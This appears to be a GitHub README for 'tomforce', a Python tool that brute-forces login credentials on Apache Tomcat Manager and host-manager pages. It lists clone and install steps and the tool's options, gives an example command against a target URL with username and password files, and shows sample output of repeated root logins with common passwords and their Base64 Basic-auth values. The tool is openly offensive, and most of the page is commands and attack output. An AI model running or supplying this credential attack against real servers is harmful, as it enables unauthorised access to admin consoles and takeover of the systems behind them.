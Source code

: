 # Tomcat Manager Credential Bruteforcing

# Usage

git clone https://github.com/v1ru6/tomforce.git  
pip install termcolor  

python3 tomforce.py  

options:  

-h, --help                              show this help message and exit  
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)  
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)  
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames  
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords  
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values  
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)  
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[\+] Starting Brute-force Attack...                                                                        
[\*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[\*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[\*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[\*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[\*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[\*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[\*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[\*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[\*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[\*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[\*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[\*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[\*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[\*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[\*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
